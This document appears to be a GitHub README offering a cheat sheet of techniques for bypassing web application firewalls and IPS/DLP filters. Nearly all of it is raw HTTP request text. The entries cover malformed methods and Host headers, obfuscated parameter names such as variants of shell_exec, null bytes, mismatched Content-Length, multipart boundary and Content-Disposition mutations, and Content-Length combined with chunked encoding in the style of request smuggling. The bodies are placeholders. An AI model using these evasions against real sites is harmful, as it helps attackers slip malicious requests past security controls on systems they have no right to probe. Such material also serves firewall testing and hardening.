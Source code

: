 # WAF-bypass-Cheat-Sheet

# WAF/IPS/DLP bypass Cheat Sheet
Another way to bypass

**Add \r\n before the first line HTTP request**  

```py

GET /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```


**Writing the method with a lowercase (Apache)**
```py
get /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Tabs before the method (IIS)**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**GET /login?shell_exec HTTP/1.1**
```py
GET /login?shell.exec HTTP/1.1
GET /login?shell[exec HTTP/1.1
GET /login?shell%5bexec HTTP/1.1
GET /login?shell%2eexec HTTP/1.1
GET /login?shell%5fexec HTTP/1.1
GET /login?shell%20exec HTTP/1.1
```

**GET /login.php?pam_param=test3**
```py
GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
```

**GET /login.php?hello=world HTTP/1.1**
```py
GET /login.php?hello%00another_text=world HTTP/1.1
```

**HTTP Request - absoluteURI**
```py
GET http://localhost/login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Double host header**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
Host: localhost
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host with lowercase**
```py
GET /login.php HTTP/1.1
host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host without space**
```py
GET /login.php HTTP/1.1
Host:favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with tab**
```py
GET /login.php HTTP/1.1
Host:	favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with addition symbols**

/
:
\x00
\x20
\x09
\xad (IIS)

Example:
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com:12345
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

```py
GET /login.php HTTP/1.1
Host: favoritewaf.com ignored.text
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Content-Type with another text** 
```py
POST /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Type: application/another-text/+++x-www-form-urlencoded

hello=world
```

**HTTP request with incorrect Content-Length (more data than specified)**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Length: 1

AAAAAAAA
```

**Double Content-Type**
```py
Content-Type: multipart/form-data; boundary=ZZZ
Content-Type: multipart/form-data; boundary=AAA
```

**Content-Disposition mutation**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=--------1218108630

----------1218108630
Content-Disposition: form-data; name="hello"

world
----------1218108630--
```

```py
Content-Disposition: form-data; name="hello"
Content-Disposition: form-data; name="hello
Content-Disposition: form-data; name="hello"world"
Content-Disposition: attachment; name="hello"
```


```py
Content-Type: multipart/form-data; boundary=x


--x
Content-Disposition:
test1;
--x
test2;
--x--
test3;
name="hello"

world
```
**Boundary mutation**
**PHP**

```py
Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
==
Content-Type: multipart/form-data; boundary=X;
```


**Nullbyte**
```py
Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
==
Content-Type: multipart/form-data; boundary=HELLO
```

**Ignored Content-Length**
```py
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

hello=world
```

==
```py
Content-Length: 22
Transfer-Encoding: chunked

0B
hello=world
0

```

==
```py
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
hel
3
lo=
3
wor
2
ld
0
```
